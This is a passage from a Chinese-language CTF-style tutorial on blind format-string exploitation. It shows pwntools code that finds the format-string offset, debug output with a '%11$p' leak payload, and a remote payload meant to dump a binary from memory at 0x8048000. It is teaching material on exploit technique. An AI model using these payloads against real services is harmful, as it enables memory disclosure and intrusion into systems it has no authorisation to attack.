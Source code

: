 从上面的测试代码中可以证明上述所讲的结论, 我们成功leak出相应内存的数据(直到 `\x00` 为止)

上面爆破出来的11我们称为offset，pwntools有自动化代码可以算出offset:

```
# fmt_test.py
#! /usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

context.log_level = 'debug'

def exec_fmt(payload):  
    p = process("a.out")
    p.sendline(payload)
    info = p.recv()
    p.close()
    return info

autofmt = FmtStr(exec_fmt)  
print autofmt.offset
```

我们可以看看其中一条DEBUG数据和结果:

```
$ python fmt_test.py

...

[+] Starting local process './a.out' argv=['a.out'] : Done
[DEBUG] Sent 0x22 bytes:
    'aaaabaaacaaadaaaeaaaSTART%11$pEND\n'
[DEBUG] Received 0x27 bytes:
    'aaaabaaacaaadaaaeaaaSTART0x61616161END\n'
[*] Stopped program './a.out'
[*] Found format string offset: 11
11
```

测试完了，现在又恢复到没bin状态，有了前面的基础，要dump出整个bin就很容易了

在Linux下，不开PIE保护时，32位的ELF的默认首地址为 `0x8048000` ，如果开启了PIE保护，则需要根据ELF的魔术头 `7f 45 4c 46` 进行爆破，内存地址一页一页的往前翻直到翻到ELF的魔术头为止

但是这时候还存在一个问题: 比如我的Payload为:

```
p = remote("127.0.0.1",10001)  
p.send(p32(0x8048000)+"%11$s")  
print p.recv()
```

得到的结果是

```
$ python fmt_test.py
...
Traceback (most recent call last):  
  ...
EOFError  
...
```
